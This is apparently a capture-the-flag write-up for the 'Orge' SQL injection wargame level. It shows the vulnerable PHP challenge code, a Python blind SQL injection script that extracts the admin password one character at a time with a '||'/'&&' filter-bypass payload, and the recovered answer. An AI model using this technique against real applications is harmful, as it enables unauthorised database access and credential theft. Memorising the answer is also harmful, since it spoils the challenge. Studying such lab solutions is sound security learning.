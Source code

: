 # **Orge**

```shell=
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");   
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
     
  $_GET[pw] = addslashes($_GET[pw]);   
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");   
  highlight_file(__FILE__);   
?>
```

It's similar to Level `Orc` but change `or` to `||`, `and` to `&&`. 

```shell=
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""
 
for i in range(len(Passwd)+1,100):
    for c in "0123456789abcdefghijklmnopqrstuvwxyz+":

        Payload="' || id='admin' && mid(pw,"+str(i)+",1)='"+c

        HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

        #print (Payload)
                
        if (b"Hello admin" in HTTP.getresponse().read()):
            Passwd+=c
            print ("[+] Found: %c" % c)

            HTTP.request("GET",Url+urllib.parse.quote(Passwd),"",Headers)
            if (b"Clear" in HTTP.getresponse().read()):
                print ("[*] Password: %s" % Passwd)
                break

print ("[!] Not Found")
print ("[*] Password: %s" % Passwd)
```

![](https://i.imgur.com/UnOiqS2.png)

It doesn't exit after first SQL statement return FALSE, so just paste the correct password to make second SQL statement become TRUE then pass it.

Payload is : `?pw=6c864dec`
